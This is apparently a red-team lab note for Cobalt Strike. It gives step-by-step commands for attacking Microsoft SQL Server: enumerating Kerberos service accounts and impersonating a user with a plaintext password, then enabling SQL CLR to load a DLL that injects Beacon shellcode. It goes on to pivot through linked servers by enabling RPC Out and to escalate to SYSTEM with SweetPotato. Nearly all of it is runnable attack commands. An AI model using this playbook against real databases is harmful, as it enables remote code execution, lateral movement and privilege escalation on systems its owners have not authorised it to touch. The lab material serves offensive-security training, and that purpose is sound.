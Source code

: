 
Search for MSSQL servers configured for Kerberos authentication.
```powershell
ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName
```

Basic enumeration - we want to be a sysadmin
```powershell
sql-info lon-db-1
sql-whoami lon-db-1
```

Impersonate a sysadmin user
```powershell
make_token CONTOSO\rsteel Passw0rd!

sql-whoami lon-db-1
```

---

##### SQL CLR RCE

Check if CRL is enabled and enable if needed
```powershell
sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"

sql-enableclr lon-db-1
```

 Open Visual Studio and create a new [Class Library (.NET Framework)](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Access%2FLab) project:
    
    1. Project name: MyProcedure.
    2. Place in the same directory: Checked
    3. Add _smb_x64.xthread.bin_ and set build action to an embedded resource            (threaded shell code).

> We want the shell code running as a thread so if we exit the beacon and it's running in the database process, it won't tear down the database process and just the beacon thread

Use the code found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Access%2FPayloads%2FSQL%20CLR%20Payload)

 >This will perform classic injection where the Beacon will run inside the MS SQL process.

 Load the DLL onto the server
```powershell
sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure
```

Link to existing beacon
```powershell
link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
```

Disable SQL CLR 
```powershell
sql-disableclr lon-db-1
```

--- 

##### Lateral movement

Enumerate SQL Links
```powershell
sql-links lon-db-1
```

Verify privileges on linked DB
```powershell
sql-whoami lon-db-1 "" lon-db-2
```

Check if RPC Out is enabled on the link ; enable if required
```powershell
sql-checkrpc lon-db-1

sql-enablerpc lon-db-1 lon-db-2
```

Execute SQL CLR payload on link
```powershell
sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure "" lon-db-2
```

Link beacon on link to beacon on DB1
```powershell
‌link lon-db-2 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
```

---

##### Privilege Escalation

Enumerate token privileges
```poweshell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
```

Upload payload to service directory
```powershell
cd C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps

upload C:\Payloads\tcp-local_x64.exe
```

Execute payload as SYSTEM with SweetPotato
```powershell
execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p "C:\Windows\ServiceProfiles\MSSQLSERVER\AppData\Local\Microsoft\WindowsApps\tcp-local_x64.exe"
```

Connect to new P2P Beacon
```powershell
connect localhost 1337
```